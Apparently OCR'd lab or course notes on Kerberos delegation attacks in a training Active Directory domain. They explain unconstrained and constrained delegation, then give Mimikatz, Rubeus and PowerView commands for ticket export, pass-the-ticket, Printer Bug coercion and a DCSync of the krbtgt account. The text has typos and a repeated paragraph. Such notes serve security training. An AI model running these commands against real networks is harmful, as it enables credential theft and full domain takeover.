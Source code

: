 There are two types of Kerberos Delegation -->
General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.
Constrained Delegation which allows the first hop server (web server in our example) to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to the first hop server, Windows offers Protocol Transition to transition the request to Kerberos.
NOTE - In both types of delegations, a mechanism is required to impersonate the incoming user and authenticate to the second hop server (Database server in our example) as the user.
Unconstrained Delegation -
When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user.
When unconstrained delegation is enabled, the DC places user's TGT inside TGS (Step 4 in the previous diagram). When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user.
This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.
Discover domain computers which have unconstrained delegation enabled using PowerView -
Get-DomainComputer -UnConstrained
Using ActiveDirectory module -
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Now, Compromise the server(s) where Unconstrained delegation is enabled.
--> We must trick or wait for a domain admin to connect a service on appsrv.
Now, if the command is run again -
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
The DA token could be reused -
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgtDOLLARCORP.MONEYCORP.LOCAL.kirbi"' 
Unconstrained Delegation - Printer Bug
How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!
A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug.
We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv -
Rubeus.exe monitor /interval:5 /nowrap
And after that run MS-RPRN.exe 
(https://github.com/leechristensen/SpoolSample) on the student VM -
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
BONUS --> If you are attacking from a Linux machine, check out Coercer (https://github.com/p0dalirius/Coercer) for other MS protocols that can be abused for coercion.
Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM -
Rubeus.exe ptt /tikcet:
Once the ticket is injected, run DCSync -
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
Constrained Delegation - (request it out of a thin air, no need to DA privs)
Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user.
A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization.
To impersonate the user, Service for User (S4U) extension is used which provides two extensions -
Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user.
Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user.
To impersonate the user, Service for User (S4U) extension is used which provides two extensions -
Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute.